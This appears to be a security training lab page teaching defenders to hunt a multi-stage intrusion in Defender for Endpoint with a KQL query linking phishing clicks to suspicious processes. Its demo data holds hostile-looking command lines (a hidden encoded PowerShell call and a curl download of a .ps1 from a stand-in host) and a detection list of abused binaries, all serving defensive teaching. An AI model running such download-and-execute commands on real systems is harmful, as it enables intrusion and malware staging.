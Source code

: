 ```yaml
---
title: '03: Review execution timelines in Defender for Endpoint'
layout: default
nav_order: 3
parent: 'Exercise 05: Analyze and Map a Multi-Stage Intrusion'
---
```


## Task 03: Review execution timelines in Defender for Endpoint

1. Copy the following KQL into the query window, then select **Run query**.

    <details markdown='block'>
    <summary>
    Expand here to copy KQL-3.txt
    </summary>

    ```KQL-3.txt-wrap
    // ---- USE REAL MDO CLICKS + DEMO PROCESSES (fixed) ----
    let lookback    = 7d;
    let windowAfter = 2h;
    let suspicious  = dynamic(["powershell.exe","wscript.exe","mshta.exe","rundll32.exe","regsvr32.exe","cmd.exe","curl.exe","wget.exe","bitsadmin.exe"]);
    let demoBase    = ago(3d);

    // Real clicks (if present)
    let RealClicks =
        UrlClickEvents
        | where Timestamp > ago(lookback)
        | where ActionType in ("ClickAllowed","ClickBlocked") or toint(IsClickedThrough) == 1
        | project AccountUpn, ClickTime=Timestamp, Url, ReportId, NetworkMessageId;

    // --- FIXED: demo clicks use offset timespan, then extend to datetime ---
    let DemoClicksSeed =
    datatable (offset:timespan, AccountUpn:string, Url:string, ReportId:long, NetworkMessageId:string)
    [
      5m,  "alex.johnson@contoso.com", "http://contoso.example/billing", 777001, "netmsg-001",
      10m, "alex.johnson@contoso.com", "http://contoso.example/login",   777002, "netmsg-002",
      12m, "bruce.wayne@contoso.com",  "http://contoso.example/script",  777003, "netmsg-003"
    ];
    let DemoClicks =
        DemoClicksSeed
        | extend ClickTime = demoBase + offset
        | project AccountUpn, ClickTime, Url, ReportId, NetworkMessageId;

    // Prefer real clicks; include demo to guarantee results
    let Clicks = union isfuzzy=true RealClicks, DemoClicks;

    // --- FIXED: demo processes use offset timespan, then extend to datetime ---
    let DemoProcsSeed =
    datatable (offset:timespan, DeviceName:string, FileName:string, ProcessCommandLine:string,
               InitiatingProcessFileName:string, InitiatingProcessCommandLine:string,
               ActorUpn:string, ReportId:long)
    [
      25m, "SEA-WKS-001", "powershell.exe", "powershell -nop -w hidden -enc AQA...",
           "outlook.exe", "outlook.exe /embedding", "alex.johnson@contoso.com", 870001,

      30m, "SEA-WKS-001", "cmd.exe", "cmd /c curl http://contoso.example/a.ps1 -o a.ps1",
           "powershell.exe", "powershell -nop -w hidden", "alex.johnson@contoso.com", 870002
    ];
    let Procs =
        DemoProcsSeed
        | extend Timestamp = demoBase + offset
        | where FileName in~ (suspicious)
        | project Timestamp, DeviceName, FileName, ProcessCommandLine,
                  InitiatingProcessFileName, InitiatingProcessCommandLine,
                  ActorUpn, ReportId;

    // Correlate: suspicious process within 2h after a user's click
    Procs
    | join kind=inner (Clicks | project AccountUpn, ClickTime) on $left.ActorUpn == $right.AccountUpn
    | where Timestamp between (ClickTime .. ClickTime + windowAfter)
    | project Timestamp, DeviceName, FileName, ProcessCommandLine,
              InitiatingProcessFileName, InitiatingProcessCommandLine,
              AccountUpn=ActorUpn, ReportId
    | order by Timestamp asc

    ```
    </details>

    ![Intrusion-4.png](../../media/Intrusion-4.png)

    {: .note }
    > Common signals include:
    > - `outlook.exe` → `powershell.exe`
    > - `cmd /c curl ...` or `rundll32`, `mshta`  
    > These strongly suggest post-phish staging or execution.

    {: .highlight }
    > If multiple devices tie to the same user within the timeline, consider possible **lateral movement**.


